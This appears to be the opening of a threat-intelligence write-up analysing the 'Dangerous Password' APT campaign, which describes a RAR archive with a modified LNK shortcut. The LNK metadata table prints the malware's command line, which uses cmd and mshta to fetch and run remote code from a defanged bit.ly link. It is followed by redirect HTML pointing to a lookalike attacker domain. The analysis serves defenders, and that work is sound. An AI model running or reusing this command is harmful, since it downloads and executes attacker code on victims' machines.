 ## Dangerous Password
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Articles](#Articles)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is a executable RAR archive content a edited lnk, this writes the file in the temp folder and executes the remote code by mshta call.</h6>
<img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/offshore%20APT%20organization/DangerousPassword/2020-04-02/Pictures/Lnk_File.png">

<table>
<tr>
<td>MachineID</td>
<td>IconFileName</td>
<td>CommandLineArguments</td>
<td>WorkingDirectory</td>
<td>LocalBasePath</td>
<td>TargetFileDOSName</td>
<td>TargetFileSize</td>
<td>CreateDate</td>
<td>ModifyDate</td>
<td>FileAttributes</td>
</tr>
<tr>
<td>desktop-mn3id9</td>
<td>C:\Windows\System32\shell32.dll</td>
<td>/c start /b %SystemRoot%\System32\mshta https[:]//bit.ly/2UiZH6V</td>
<td>C:\Users\Public\Music\</td>
<td>C:\Windows\System32\cmd.exe</td>
<td>cmd.exe</td>
<td>280064</td>
<td>2020-02-14 15:47:41 (+01:00)</td>
<td>2020-02-14 15:47:41 (+01:00)</td>
<td>Archive</td>
</tr>
</table>

<h6>The bitly link redirects to a fake cloud solution which usurps a legitim service. (.club instead of .fr)</h6>

```html
<html>
<head><title>Bitly</title></head>
<body><a href="http://www.cloudfiles.club:8080/edit?id=T8YJQTVktMp8W%2Bj/W5EvDWglxOnw8evApd1RaERyZzz/Qzh2uXI/OIlDzMTGaoc57qLEkLRpQt5RK8enWJAvRA%3D%3D">moved here</a></body>
</html>
```
